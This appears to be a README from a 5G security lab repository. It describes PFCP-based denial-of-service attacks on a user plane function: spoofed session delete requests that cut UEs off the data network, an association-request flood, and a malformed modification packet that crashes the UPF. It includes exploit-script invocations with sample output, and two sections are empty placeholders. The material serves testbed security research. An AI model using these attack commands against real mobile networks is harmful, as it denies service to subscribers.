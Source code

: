 # PFCP based Attacks

## Table of Contents
1. [PFCP Based DOS and Eavesdrop Attacks](#dos)
	1. [Unauthorized PFCP Session Delete Request](#delete)
	2. [Session Modify to Drop](#moddrop)
  	3. [Session Modify GNB address](#moddest)
2. [Crash UPF](#crash)
    1. [Flood Associate](#flood)
    2. [Malformed Modification Request](#malform)

## PFCP Based DOS Attacks <div id='dos'/>

These attacks are based on but not exactly the same as those of todo (cite pfcp paper) however instead of taking over the SMF we will just spoof an IP address and act as a second UPF that connects and then commits the unauthorized PFCP based attacks.

These attack work from either the UE or CORE vm you just need the UPF ip address. You only need to not use the same IP as the ligitimate SMF if you don't have the ability to stop the real SMF. Also you need to run and have scapy installed with root provalages to use the functionalities needed.

### Unauthorized PFCP Session Delete Request <div id='delete'/>

Here we connect to a or multiple UPFs and send unauothrized PFCP session delete requests. First we send an association request and then either flood SEIDs or target a specific SEID. Below you can see the standard use. 

```console
user@UE_VM||CORE_VM:~/5G/UE_VM/Exploit_Scripts/PFCP$ sudo python3 delete_pfcp_session.py -h
sudo python3 delete_pfcp_session.py -s <source_ip> -d <destination_ip> -t <target seid (optional else will flood)> -f <flood range>

user@UE_VM||CORE_VM:~/5G/UE_VM/Exploit_Scripts/PFCP$ sudo python3 delete_pfcp_session.py -s 10.0.14.10  -d 10.0.17.1 -t 3 #targeting the SEID on upf 10.0.17.1

.
Sent 1 packets.
Sending association request to UPF at:  10.0.17.1
.
Sent 1 packets.
Sending session delete request for SEID:  3  To upf:  10.0.17.1

user@UE_VM||CORE_VM:~/5G/UE_VM/Exploit_Scripts/PFCP$ sudo python3 delete_pfcp_session.py -s 10.0.14.10  -d 10.0.17.1,10.0.21.1 -f 0,3 #Flood seid 0-3 to both ips 10.0.17.1 and 10.0.21.1

.
Sent 1 packets.
Sending association request to UPF at:  10.0.17.1
.
Sent 1 packets.
Sending association request to UPF at:  10.0.21.1
.
Sent 1 packets.
Sending session delete request for SEID:  0  To upf:  10.0.17.1
.
Sent 1 packets.
Sending session delete request for SEID:  0  To upf:  10.0.21.1
.
Sent 1 packets.
Sending session delete request for SEID:  1  To upf:  10.0.17.1
.
Sent 1 packets.
Sending session delete request for SEID:  1  To upf:  10.0.21.1
.
Sent 1 packets.
Sending session delete request for SEID:  2  To upf:  10.0.17.1
.
Sent 1 packets.
Sending session delete request for SEID:  2  To upf:  10.0.21.1

```
Below you can see an example of a single UE being targeted and malicious user deletes their SEID, so that only one UE no longer has access to the data network.

![targeted seid](../../../Media/targeted_dos_from_ue.gif)


![Registerue](/5G/Media/regester_ue_upf_log.gif)

### Modify to Drop <div id='moddrop'/>

### Modify GNB address <div id='moddest'/>

## Crash UPF <div id='crash'/>


### Flood Associate DOS <div id='flood'/>

Another even simpler attack is to simply flood with association requests from different spoofed ips.

```console
user@UE_VM||CORE_VM:~/5G/UE_VM/Exploit_Scripts/DOS/PFCP$ sudo python3 flood_associate.py -d <target IP>
```

![flood associate](../../../Media/flood_associate_dos.gif)


## Malformed Packet DOS   <div id='malform'/>
[//]: # (todo check if spoof real smf ip works)
While investigating the other PFCP Dos attacks we found a malformed packet that leads to the upf service restarting and losing all UE data associated, thusly blocking all UE traffic.

```console
user@UE_VM||CORE_VM:~/5G/UE_VM/Exploit_Scripts/PFCP$ sudo python3 malformed_modify_pfcp_session.py -d <target IP>
```

![malformed dos](../../../Media/malformed_upf_dos.gif)

